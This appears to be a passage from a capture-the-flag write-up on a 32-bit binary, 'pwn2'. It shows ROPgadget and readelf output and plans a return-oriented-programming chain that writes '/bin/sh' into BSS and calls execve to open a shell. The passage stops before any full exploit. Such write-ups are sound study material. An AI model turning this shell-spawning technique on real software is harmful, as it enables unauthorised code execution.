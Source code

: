 ```bash
0x0804844e : ret 0xeac1
0x08048529 : rol dh, 1 ; add byte ptr [eax], al ; leave ; ret
0x08048437 : ror cl, 1 ; ret
0x08048474 : ror cl, cl ; ret
0x08048454 : sar eax, 1 ; jne 0x804845d ; ret
0x08048401 : sbb al, 0x24 ; ret
0x0804864b : sbb al, 0x5b ; pop esi ; pop edi ; pop ebp ; ret
0x0804842e : sbb bh, al ; add al, 0x24 ; sub al, 0xa0 ; add al, 8 ; call eax
0x0804844f : shr edx, 0x1f ; add eax, edx ; sar eax, 1 ; jne 0x8048462 ; ret
0x08048432 : sub al, 0xa0 ; add al, 8 ; call eax
0x0804846f : sub al, 0xa0 ; add al, 8 ; call edx
0x08048416 : sub al, 0xa0 ; add al, 8 ; cmp eax, 6 ; ja 0x8048429 ; ret
0x0804833d : sub esp, 8 ; call 0x8048409
0x0804882f : xor byte ptr [edx], al ; dec eax ; push cs ; adc al, 0x41 ; ret

Unique gadgets found: 123
```

So we have some good gadgets like `inc eax ; ret` & company, also a `0x080484d0 : int 0x80`.
So our exploit consists in: 

1) Read "/bin/sh" with a system call `read` writing this string in BSS

2) execute execve("/bin/sh") system call

But this is not so easy: we have to set `EAX = 3` and `ECX = BSS address`: we have to look for a gadget that give us `EAX = 0`. With the gadgets that `ROPgadget` gives us it is impossible: so we have to look for gadgets manually. What about that? 

![EAX](EAX.png)

At `0x08048459` we have the same gadget but for `EDX` register. The address of BSS is 

```bash
$ readelf -t pwn2
There are 30 section headers, starting at offset 0x1184:
...
...
...
  [25] .bss
       NOBITS          0804a040 00102c 000008 00   0   0 32
       [00000003]: WRITE, ALLOC
...
...
```
so we have to put `0804a040` into `ECX` and this is tricky. 
